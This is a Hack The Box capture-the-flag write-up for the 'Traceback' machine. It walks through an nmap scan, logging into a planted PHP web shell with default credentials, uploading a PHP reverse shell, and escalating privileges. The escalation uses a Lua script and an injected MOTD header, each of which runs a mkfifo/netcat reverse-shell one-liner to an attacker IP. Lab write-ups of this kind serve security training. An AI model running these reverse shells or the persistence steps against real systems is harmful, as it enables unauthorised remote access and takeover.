+++
title = "Traceback"
date = 2020-03-17
[taxonomies]
tags = ["hackthebox"]
+++

1.	```
	nmap -sC -sV -oA traceback 10.10.10.181
	```
	`nmap` scans show scans show ports 22 and 80 is open.
	```
	Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-17 21:42 EDT
	Failed to resolve "nmap".
	Stats: 0:00:10 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
	Service scan Timing: About 50.00% done; ETC: 21:42 (0:00:06 remaining)
	Nmap scan report for 10.10.10.181
	Host is up (0.032s latency).
	Not shown: 998 closed ports
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
	|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
	|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
	80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
	|_http-server-header: Apache/2.4.29 (Ubuntu)
	|_http-title: Help us                                                         
	```

2.	Enumeration of port 80 shows a single page. I began running `gobuster` and `nikto` but no results.

	
	
	In the source page, there is a line that mentions:
	```
	<!--Some of the best web shells that you might need ;)-->
	```
	
	Google shows up with a repository that contains many web shells.

	```
	https://github.com/TheBinitGhimire/Web-Shells
	```
	
	I tried the entire list of filenames and smevk.php worked.

	```
	http://traceback/smevk.php
	```

	

	I basically guessed admin:admin and it worked.

	

3.	After playing around with the web shell and understanding the capabilities, there was a file manager that can be utilized to upload a reverse shell script. I Googled for a PHP reverse shell and came upon the gold standard of PHP scripts:

	```
	https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
	```
	
	Once it was uploaded, it was a matter of executing the script by navigating the URL:
	
	```
	http://traceback/rs.php
	```

4.	Now that I have a low privilege shell access, I began lurking around to see what I can find. I noticed there was a note.txt file in the `/home/webadmin/` directory.

	
	
	I took a look at the `.bash_history` file to see if there were past commands that would assist with privilege escalation.

	
	
	The `sudo` command is definitely not right so I looked into the current privileges I had with `webadmin` account.

	
	
5.	Knowing what privileges I had, I knew what I had to do going forward. I Googled for a way to execute operating system commands in LUA language to create a reverse shell connection. I Googled for an LUA based reverse shell and combined with a bourne reverse shell one liner.

	```
	require('os');
	os.execute('sh -c rm /tmp/abc;mkfifo /tmp/abc;cat /tmp/abc|/bin/sh -i 2>&1|nc 10.10.14.45 4445 >/tmp/abc');
	```

	

6.	Setup a netcat listener and execute the `sudo` command. User flag has been obtained.

	```
	sudo -u sysadmin /home/sysadmin/luvit privesc.lua
	```

	

	

### Privilege Escalation

1.	As a convenience for myself, I added my own SSH key to the `authorized_keys` file so I can easily SSH into the machine and have a proper shell.

	

	```
	ssh -i ~/.ssh/id_rsa sysadmin@traceback
	```
	
2.	I ran the standard linux enumeration scripts, `Linpeas` and `PSPY64`. The `Linpeas` results showed a lot of interesting results but didn't notice anything too interesting until I ran `PSPY64`. `PSPY64` found a `cron` job that was running every 30 seconds or so and was related to MOTD. Once I noticed these processes, I figured it was related to some kind of MOTD abuse.

	
	
	
	
	


3.	`Linpeas` show that `sysadmin` had access to modify `00-header` file which controls the MOTD when you log in via SSH. I decided to insert the reverse shell one liner that I did before. Next time when I logged into SSH, the machine should execute the MOTD file along with my command. Root flag has been obtained.

	```
	sh -c rm /tmp/abc;mkfifo /tmp/abc;cat /tmp/abc|/bin/sh -i 2>&1|nc 10.10.14.45 4446 >/tmp/abc');
	```

	

	